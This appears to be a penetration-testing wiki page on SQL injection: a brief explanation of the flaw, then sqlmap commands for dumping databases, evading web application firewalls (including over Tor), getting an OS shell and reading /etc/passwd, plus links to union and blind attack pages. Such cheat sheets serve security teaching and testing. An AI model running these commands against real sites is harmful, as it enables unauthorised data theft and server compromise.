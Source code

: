 # SQL Injection

## Theory

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.

## Practice

### Tools <a href="#detect" id="detect"></a>

{% tabs %}
{% tab title="SQLMap" %}
[SQLMap](https://github.com/sqlmapproject/sqlmap) is an automatic SQL injection and database takeover tool.

```bash
# SQLMap from request file
sqlmap -r login.req --level=5 --risk=3 --batch

# Dump everything
sqlmap -u "http://example.com/?id=1" --level=5 --risk=3 --batch --all

# SQLMap WAF Bypass - Tamper Script
sqlmap -u "http://example.com/?id=1" --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --no-cast --no-escape --dbs --random-agent

# Tor WAF bypass
sqlmap -u "http://example.com/?id=1" --time-sec=10 --tor --tor-type=SOCKS5 --check-tor --dbs --random-agent --tamper=space2comment

# Get a shell
sqlmap -u "http://example.com/?id=1" --os-shell

# Read a file
sqlmap -u "http://example.com/?id=1" --file-read=/etc/passwd
```
{% endtab %}
{% endtabs %}

### Union Attacks

{% content-ref url="union-attacks.md" %}
[union-attacks.md](union-attacks.md)
{% endcontent-ref %}

### Blind Attacks

{% content-ref url="blind-sqli/boolean-based.md" %}
[boolean-based.md](blind-sqli/boolean-based.md)
{% endcontent-ref %}

{% content-ref url="blind-sqli/time-based.md" %}
[time-based.md](blind-sqli/time-based.md)
{% endcontent-ref %}

{% content-ref url="blind-sqli/error-based.md" %}
[error-based.md](blind-sqli/error-based.md)
{% endcontent-ref %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
